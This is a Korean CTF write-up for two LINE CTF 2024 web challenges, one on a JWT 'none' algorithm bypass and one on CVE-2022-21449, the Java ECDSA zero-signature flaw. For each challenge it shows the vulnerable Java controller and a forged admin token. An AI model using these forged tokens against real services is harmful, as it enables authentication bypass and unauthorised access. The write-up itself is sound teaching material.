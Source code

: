 ```yaml
---
title: "LINE CTF 2024"
date: 2024-03-26 +0900
categories: [WRITE-UP]
tags: ['writeup', 'line ctf', '2024']
image:
    path: "/assets/img/posts/linectf2024writeup/Untitled.png"
    alt: "Line CTF"
    lqip: "/assets/img/posts/linectf2024writeup/Untitled.png"
---
```



## jalyboy-baby [web]
- _Solver : 428_
- _Score : 100_

### 1. Abstract

- JWT None Algorithm Attack

### 2. Analysis

- 문제 페이지에서는 j 라는 파라미터를 통해 JWT 값을 전송하고 있음
- 파라미터로 전송받은 JWT 값을 파싱 및 `claims` 에 저장
- `claims` 에서 `getSubject()` 를 통해 `sub` 값을 비교하여 분기한다.
- `sub` 값이 `admin` 이라면 flag 값을 model에 포함시킨다.

```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    Key secretKey = Keys.secretKeyFor(SignatureAlgorithm.HS256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(secretKey).compact();

        try {
            Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
{: file="JwtController.java" }

### 3. Exploit

JWT 값은 `j` 파라미터를 통해 보내줄 수 있다. 따라서 이 JWT 값을 다시 생성해서 보낼 수 있다.

```json
{
	"alg" : "None"
}

{
	"sub" : "admin"
}
```

현재 JWT 알고리즘은 HS256을 사용하고 있지만, JWT를 생성할 수 있으므로 `alg` 를 `None` 으로 변경하여 서명 검증을 우회할 수 있다.  `sub` 가 admin이 되어 flag를 얻을 수 있다.

```plain
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiJ9.
```

![Untitled](/assets/img/posts/linectf2024writeup/Untitled%201.png)

> Flag : `LINECTF{337e737f9f2594a02c5c752373212ef7}`
<br>

## jalyboy-jalygirl [web]
- _Solver : 189_
- _Score : 100_

### 1. Abstract

- CVE-2022-21449

### 2. Analysis

jalyboy-baby 문제와 대부분 같지만, 서명 알고리즘은 `ES256` 을 사용하고 있다. 

```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
{: file="JwtController.java" }


### 3. Exploit

해당 문제는 JAVA의 ESDSA 서명 검증 알고리즘에 대한 구현 오류로 인해 취약점이 발생한다. 서명 검증에 필요한 r, s 의 값이 0인지 검증을 하지 않기 때문에 0인 서명 값을 생성할 수 있고, 이를 통해 모든 공개키에 대해서 항상 유효한 서명이 된다.

```java
eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA=
```

![Untitled](/assets/img/posts/linectf2024writeup/Untitled%202.png)

> Flag: `LINECTF{abaa4d1cb9870fd25776a81bbd278932}`
> 

### Reference

> [https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/)

> [https://www.linkedin.com/pulse/elliptic-curve-digital-signature-algorithm-flaw-mohammed-janbar/](https://www.linkedin.com/pulse/elliptic-curve-digital-signature-algorithm-flaw-mohammed-janbar/)
